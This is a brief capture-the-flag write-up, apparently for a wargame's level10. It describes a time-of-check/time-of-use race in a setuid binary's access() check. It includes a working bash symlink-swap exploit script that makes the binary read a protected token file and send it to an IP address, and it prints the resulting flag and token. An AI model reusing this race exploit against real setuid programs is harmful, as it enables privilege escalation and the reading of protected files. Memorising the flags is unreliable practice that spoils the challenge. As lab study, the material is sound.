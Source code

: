 This one was quite difficult, we get again a level10 and a Token files.
We check the level10 with ghidra to understand how it's work.
After long moment of discussion we saw that "acess()" have some security vulnerabilities.
We fond Time-Of-Check Time-Of-Use attakcs : 

=> user executes program
program is setuid, immediately gets all privs of root
program checks file1 to ensure that user has access
file1 is a hardlink to file2, which user has access to
user changes file1 to hardlink to file3 (/etc/shadow or something like that)
program reads file1 and does something to it (print, convert, whatever)
user now has access to a file they shouldn't

we made a scipt 

#!/bin/bash
# exploit.sh
TEMPFILE="/var/tmp/exploit"
OLD_LS=`ls -l $1`
NEW_LS=`ls -l $1`

while [ "$OLD_LS" == "$NEW_LS" ]
do
        rm -f $TEMPFILE
        echo "From user: " > $TEMPFILE
        echo "TOCTOU success" | /home/user/level10/level10 $TEMPFILE 192.168.56.103 & unlink $TEMPFILE
        ln -s $1 $TEMPFILE & NEW_LS=`ls -l $1`
done

After a little bit of wait, we have been able to break the code and find the flag : woupa2yuojeeaaed06riuj63c

we log on su Flag10 put getflag and get : feulo4b72j7edeahuete3no7c